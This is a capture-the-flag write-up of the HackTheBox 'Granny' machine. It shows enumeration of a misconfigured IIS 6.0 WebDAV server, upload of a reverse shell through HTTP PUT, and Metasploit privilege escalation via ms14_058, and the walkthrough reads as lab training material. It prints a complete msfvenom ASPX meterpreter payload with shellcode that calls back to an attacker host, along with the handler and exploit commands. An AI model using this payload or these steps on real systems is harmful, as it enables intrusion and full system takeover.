





---
Category:
  - B2R
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - HTTP-PUT
  - MS14_058
  - arbitrary-file-upload
  - webdav
  - Windows
---
# Resolution summary

>[!summary]
>- Application is running **webdav**
>- webdav is misconfigured and allows to **write file** on the server using the **PUT HTTP methods**, leading to RCE
>- Local target is vulnerable to **ms14_058** and allows elevation of privileges

## Used tools

- nmap
- nikto
- davtest
- msfvenom
- meterpreter

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Granny]
└─$ sudo nmap -p- -sS 10.10.10.15 -v -oN scans/all-tcp-ports.txt
...
PORT   STATE SERVICE
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 107.43 seconds
           Raw packets sent: 131153 (5.770MB) | Rcvd: 82 (3.284KB)
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Granny]
└─$ sudo nmap -p80 -sV -sC -sT -A 10.10.10.15 -oN scans/open-tcp-ports.txt
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-21 13:01 EDT
Nmap scan report for 10.10.10.15
Host is up (0.051s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
|   WebDAV type: Unknown
|   Server Date: Fri, 21 May 2021 17:08:53 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Type: Microsoft-IIS/6.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|media device
Running (JUST GUESSING): Microsoft Windows 2000|XP|2003|PocketPC/CE (94%), BT embedded (85%)
OS CPE: cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_xp::sp1:professional cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_ce:5.0.1400 cpe:/h:btvision:btvision%2b_box
Aggressive OS guesses: Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (94%), Microsoft Windows Server 2003 SP1 (93%), Microsoft Windows Server 2003 SP1 or SP2 (93%), Microsoft Windows Server 2003 SP2 (93%), Microsoft Windows 2003 SP2 (92%), Microsoft Windows 2000 SP3/SP4 or Windows XP SP1/SP2 (90%), Microsoft Windows 2000 SP4 (90%), Microsoft Windows XP SP2 or SP3 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2000 SP1 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using proto 1/icmp)
HOP RTT      ADDRESS
1   50.86 ms 10.10.14.1
2   51.63 ms 10.10.10.15

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.47 seconds
```

# Enumeration

## Port 80 - HTTP (Microsoft-IIS/6.0)

Enumerated port 80 using nikto:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Granny]
└─$ nikto -host http://10.10.10.15
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.15
+ Target Hostname:    10.10.10.15
+ Target Port:        80
+ Start Time:         2021-05-21 13:02:49 (GMT-4)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/6.0
+ Retrieved microsoftofficewebserver header: 5.0_Pub
+ Retrieved x-powered-by header: ASP.NET
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'microsoftofficewebserver' found, with contents: 5.0_Pub
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-aspnet-version header: 1.1.4322
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-397: HTTP method 'PUT' allows clients to save files on the web server.
+ OSVDB-5646: HTTP method 'DELETE' allows clients to delete files on the web server.
+ Retrieved dasl header: <DAV:sql>
+ Retrieved dav header: 1, 2
+ Retrieved ms-author-via header: MS-FP/4.0,DAV
+ Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
+ OSVDB-5646: HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
+ WebDAV enabled (MKCOL PROPPATCH SEARCH UNLOCK PROPFIND LOCK COPY listed as allowed)
+ OSVDB-13431: PROPFIND HTTP verb may show the server's internal IP address: http://granny/_vti_bin/_vti_aut/author.dll
+ OSVDB-396: /_vti_bin/shtml.exe: Attackers may be able to crash FrontPage by requesting a DOS device, like shtml.exe/aux.htm -- a DoS was not attempted.
+ OSVDB-3233: /postinfo.html: Microsoft FrontPage default file found.
+ OSVDB-3233: /_private/: FrontPage directory found.
+ OSVDB-3233: /_vti_bin/: FrontPage directory found.
+ OSVDB-3233: /_vti_inf.html: FrontPage/SharePoint is installed and reveals its version number (check HTML source for more information).
+ OSVDB-3300: /_vti_bin/: shtml.exe/shtml.dll is available remotely. Some versions of the Front Page ISAPI filter are vulnerable to a DOS (not attempted).
+ OSVDB-3500: /_vti_bin/fpcount.exe: Frontpage counter CGI has been found. FP Server version 97 allows remote users to execute arbitrary system commands, though a vulnerability in this version could not be confirmed. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-1376. http://www.securityfocus.com/bid/2252.
+ OSVDB-67: /_vti_bin/shtml.dll/_vti_rpc: The anonymous FrontPage user is revealed through a crafted POST.
+ /_vti_bin/_vti_adm/admin.dll: FrontPage/SharePoint file found.
+ 8018 requests: 0 error(s) and 32 item(s) reported on remote host
+ End Time:           2021-05-21 13:10:58 (GMT-4) (489 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Enumerated the target using davtest:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Granny]
└─$ davtest -url http://10.10.10.15
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.15
********************************************************
NOTE    Random string for this session: LKApWY_BfIWy
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://10.10.10.15/DavTestDir_LKApWY_BfIWy
********************************************************
 Sending test files
PUT     php     SUCCEED:        http://10.10.10.15/DavTestDir_LKApWY_BfIWy/davtest_LKApWY_BfIWy.php
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_LKApWY_BfIWy/davtest_LKApWY_BfIWy.txt
PUT     asp     FAIL
PUT     cfm     SUCCEED:        http://10.10.10.15/DavTestDir_LKApWY_BfIWy/davtest_LKApWY_BfIWy.cfm
PUT     cgi     FAIL
PUT     aspx    FAIL
PUT     jsp     SUCCEED:        http://10.10.10.15/DavTestDir_LKApWY_BfIWy/davtest_LKApWY_BfIWy.jsp
PUT     jhtml   SUCCEED:        http://10.10.10.15/DavTestDir_LKApWY_BfIWy/davtest_LKApWY_BfIWy.jhtml
PUT     html    SUCCEED:        http://10.10.10.15/DavTestDir_LKApWY_BfIWy/davtest_LKApWY_BfIWy.html
PUT     pl      SUCCEED:        http://10.10.10.15/DavTestDir_LKApWY_BfIWy/davtest_LKApWY_BfIWy.pl
PUT     shtml   FAIL
********************************************************
 Checking for test file execution
EXEC    php     FAIL
EXEC    txt     SUCCEED:        http://10.10.10.15/DavTestDir_LKApWY_BfIWy/davtest_LKApWY_BfIWy.txt
EXEC    cfm     FAIL
EXEC    jsp     FAIL
EXEC    jhtml   FAIL
EXEC    html    SUCCEED:        http://10.10.10.15/DavTestDir_LKApWY_BfIWy/davtest_LKApWY_BfIWy.html
EXEC    pl      FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_LKApWY_BfIWy
PUT File: http://10.10.10.15/DavTestDir_LKApWY_BfIWy/davtest_LKApWY_BfIWy.php
PUT File: http://10.10.10.15/DavTestDir_LKApWY_BfIWy/davtest_LKApWY_BfIWy.txt
PUT File: http://10.10.10.15/DavTestDir_LKApWY_BfIWy/davtest_LKApWY_BfIWy.cfm
PUT File: http://10.10.10.15/DavTestDir_LKApWY_BfIWy/davtest_LKApWY_BfIWy.jsp
PUT File: http://10.10.10.15/DavTestDir_LKApWY_BfIWy/davtest_LKApWY_BfIWy.jhtml
PUT File: http://10.10.10.15/DavTestDir_LKApWY_BfIWy/davtest_LKApWY_BfIWy.html
PUT File: http://10.10.10.15/DavTestDir_LKApWY_BfIWy/davtest_LKApWY_BfIWy.pl
Executes: http://10.10.10.15/DavTestDir_LKApWY_BfIWy/davtest_LKApWY_BfIWy.txt
Executes: http://10.10.10.15/DavTestDir_LKApWY_BfIWy/davtest_LKApWY_BfIWy.html
```

### WebDav

Misconfigured WebDav allowed to write file on the server:

```
PUT /maoutis.txt HTTP/1.1
Host: 10.10.10.15
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 14

This is a test
```


# Exploitation

## Arbitrary File Upload using HTTP PUT Method (WebDav)

Generated a .aspx meterpreter reverse shell:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Granny]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.17 LPORT=10099 -f aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2853 bytes
<%@ Page Language="C#" AutoEventWireup="true" %>
<%@ Import Namespace="System.IO" %>
<script runat="server">
    private static Int32 MEM_COMMIT=0x1000;
    private static IntPtr PAGE_EXECUTE_READWRITE=(IntPtr)0x40;

    [System.Runtime.InteropServices.DllImport("kernel32")]
    private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr,UIntPtr size,Int32 flAllocationType,IntPtr flProtect);

    [System.Runtime.InteropServices.DllImport("kernel32")]
    private static extern IntPtr CreateThread(IntPtr lpThreadAttributes,UIntPtr dwStackSize,IntPtr lpStartAddress,IntPtr param,Int32 dwCreationFlags,ref IntPtr lpThreadId);

    protected void Page_Load(object sender, EventArgs e)
    {
        byte[] fHU0 = new byte[354] {
0xfc,0xe8,0x8f,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x31,
0xff,0x0f,0xb7,0x4a,0x26,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0x49,0x75,0xef,0x52,0x57,0x8b,
0x52,0x10,0x8b,0x42,0x3c,0x01,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4c,0x01,0xd0,0x50,0x8b,0x58,0x20,0x8b,0x48,0x18,0x01,0xd3,
0x85,0xc9,0x74,0x3c,0x31,0xff,0x49,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xc0,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf4,0x03,
0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe0,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,
0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,
0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,0x00,
0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a,0x68,0x0a,0x0a,0x0e,0x11,0x68,0x02,0x00,0x27,0x73,0x89,0xe6,
0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,
0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,0x75,0xec,0xe8,0x67,0x00,0x00,0x00,0x6a,0x00,0x6a,0x04,0x56,0x57,0x68,0x02,0xd9,
0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x56,0x6a,0x00,0x68,0x58,0xa4,0x53,
0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,0x56,0x53,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x68,0x00,
0x40,0x00,0x00,0x6a,0x00,0x50,0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,
0x24,0x0f,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,
0x00,0x53,0xff,0xd5 };

        IntPtr lYJ = VirtualAlloc(IntPtr.Zero,(UIntPtr)fHU0.Length,MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        System.Runtime.InteropServices.Marshal.Copy(fHU0,0,lYJ,fHU0.Length);
        IntPtr ivUoHy9YUZ = IntPtr.Zero;
        IntPtr xn9_T = CreateThread(IntPtr.Zero,UIntPtr.Zero,lYJ,IntPtr.Zero,0,ref ivUoHy9YUZ);
    }
</script>
```

Wrote the reverse shell on the server:





The **server did not allowed to write directly .aspx file** on the server, however it was possible to **write** the reverse shell inside **a temp file** and then **rename it**:






Set up the handler and get the meterpreter reverse shell:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Granny]
└─$ msfconsole -q
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.17
LHOST => 10.10.14.17
msf6 exploit(multi/handler) > set LPORT 10099
LPORT => 10099
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.17:10099
```



```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.17:10099 
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.17:10099 -> 10.10.10.15:1031) at 2021-05-21 14:01:12 -0400

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
```

# Privilege Escalation

## Local enumeration

Exploit suggester:

```bash
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > search suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester

Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester

msf6 exploit(multi/handler) > use 0
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 37 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```

## ms14_058

Privileges elevated through the ms14_058 vulnerability:

```bash
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms14_058_track_popup_menu
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms14_058_track_popup_menu) > set session 1
session => 1
msf6 exploit(windows/local/ms14_058_track_popup_menu) > set LHOST 10.10.14.17
LHOST => 10.10.14.17
msf6 exploit(windows/local/ms14_058_track_popup_menu) > set LPORT 4444
LPORT => 4444
msf6 exploit(windows/local/ms14_058_track_popup_menu) > run

[*] Started reverse TCP handler on 10.10.14.17:4444
[*] Launching notepad to host the exploit...
[+] Process 1428 launched.
[*] Reflectively injecting the exploit DLL into 1428...
[*] Injecting exploit into 1428...
[*] Exploit injected. Injecting payload into 1428...
[*] Payload injected. Executing exploit...
[*] Sending stage (175174 bytes) to 10.10.10.15
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 2 opened (10.10.14.17:4444 -> 10.10.10.15:1032) at 2021-05-21 14:05:13 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 4080 created.
Channel 1 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>cd C:\documents*
cd C:\documents*

C:\Documents and Settings>type Lakis\Desktop\user.txt*
type Lakis\Desktop\user.txt*

Lakis\Desktop\user.txt

700c5dc163014e22b3e408f8703f67d1
C:\Documents and Settings>type Administrator\Desktop\root.txt*
type Administrator\Desktop\root.txt*

Administrator\Desktop\root.txt

aa4beed1c0584445ab463a6747bd06e9
C:\Documents and Settings>hostname
hostname
granny
```

# Trophy

>[!quote]
>Hacking just means building something quickly or testing the boundaries of what can be done
>
\- Mark Zuckerberg 

>[!success]
>**User.txt**
>700c5dc163014e22b3e408f8703f67d1

>[!success]
>**Root.txt**
>aa4beed1c0584445ab463a6747bd06e9